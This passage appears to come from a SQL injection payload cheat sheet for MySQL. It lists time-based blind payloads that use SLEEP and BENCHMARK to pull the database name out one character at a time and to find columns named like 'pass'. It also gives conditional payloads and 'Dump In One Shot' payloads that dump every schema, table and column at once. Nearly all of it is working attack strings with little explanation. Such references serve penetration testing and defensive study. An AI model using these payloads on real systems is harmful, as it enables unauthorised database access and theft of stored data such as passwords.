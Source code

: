 Extracting the first character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'A____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'S____')#
```

Extracting the second character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SA___')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SW___')#
```

Extracting the third character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWA__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWB__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWI__')#
```

Extracting column_name.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=DATABASE() AND column_name LIKE '%pass%' LIMIT 0,1) LIKE '%')#
```


### Using Conditional Statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```


## MYSQL DIOS - Dump in One Shot

DIOS (Dump In One Shot) SQL Injection is an advanced technique that allows an attacker to extract entire database contents in a single, well-crafted SQL injection payload. This method leverages the ability to concatenate multiple pieces of data into a single result set, which is then returned in one response from the database.

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```

* SecurityIdiots
    ```sql
    make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```
